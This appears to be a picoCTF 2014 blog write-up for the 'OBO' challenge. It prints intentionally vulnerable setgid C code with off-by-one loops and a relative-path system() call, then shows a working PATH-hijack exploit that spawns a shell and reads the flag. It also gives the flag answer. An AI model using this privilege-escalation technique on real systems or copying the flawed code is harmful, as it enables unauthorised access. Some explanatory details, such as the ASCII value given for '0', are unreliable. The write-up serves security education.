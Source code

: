 ```yaml
---
layout: post
title: "picoCTF 2014 OBO"
date: 2014-11-09 19:50:05 -0500
author: [et0x]
comments: true
categories: [picoctf]
---
```


### Solved by et0x

OBO is a 90 point miscellaneous challenge. 

> This password changing program was written by an inexperienced C programmer. Can you some find bugs and exploit them to get the flag?

The source code for the program is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

const char *password_file_path = "/home/obo/password.txt";

int hex_table[256];

void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}

int read_password(FILE *file, char *password, size_t n) {
  fgets(password, n, file);
  password[strcspn(password, "\n")] = '\0';
}

void change_password(char *password) {
  char cmd[128];
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  // C is too hard, so I did the password changing in Python.
  snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
  system(cmd);
}

int main(int argc, char **argv) {
  int i;
  FILE *password_file;
  int digits[16] = {0};
  char password[64];
  char new_password[64];
  char confirm_password[64];

  generate_hex_table();

  password_file = fopen(password_file_path, "r");
  if (password_file == NULL) {
    perror("fopen");
    return 1;
  }
  read_password(password_file, password, sizeof(password));
  fclose(password_file);

  printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }

  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }

  change_password(new_password);
  printf("Password changed!\n");
  return 0;
}
```

The hint to this one says that if you can find out why the programmer was getting errors (as indicated by the comments in the source code), you should be able to figure out how to beat this one.

So in a nutshell, the generate_hex_table() function fills the hex_table array with all -1's, then it goes back and fills the array with the value of i, starting at hex_table['0'+i].  (Ascii '0' = 60, so hex_table[60+0] = '0'... and so forth for each of the subsequent loops)

The error comes in because the function that checks that the password is complex enough will always come back with a -1 because hex_table[0] = -1, which causes execution to break.  Also, in order to meet complexity requirements, you have to enter '0123456789abcdefg' for your input at the first prompt.  Through the course of testing different values here, it was discovered that the program allows hex A-G, instead of A-F due to a one off programming error, and also that if you throw in hex \x01 when it asks for a password, it'll bypass the complexity check and jump straight to the password changing python script.  The only problem is that the python script doesn't do anything.

```bash
pico1139@shell:/home/obo$ cat set_password.py
#!/usr/bin/python
print 'Not yet implemented.'
```

As you can see though, the call to the python program uses a relative path:

```c
snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
```


We should be able to create our own script called "python", place it somewhere we have write access to, and change the environment variables so that it starts with our current directory.

```bash
pico1139@shell:/home/obo$ cd ~
pico1139@shell:~$ PATH=.:$PATH
pico1139@shell:~$ cat python
#!/bin/dash
/bin/dash
pico1139@shell:~$ /home/obo/obo
New password: abcdefg0123456789
Confirm old password: ^A
$ id
uid=11066(pico1139) gid=1013(obo) groups=1017(picogroup)
$ cd /home/obo
$ cat flag.txt
watch_your_bounds
```



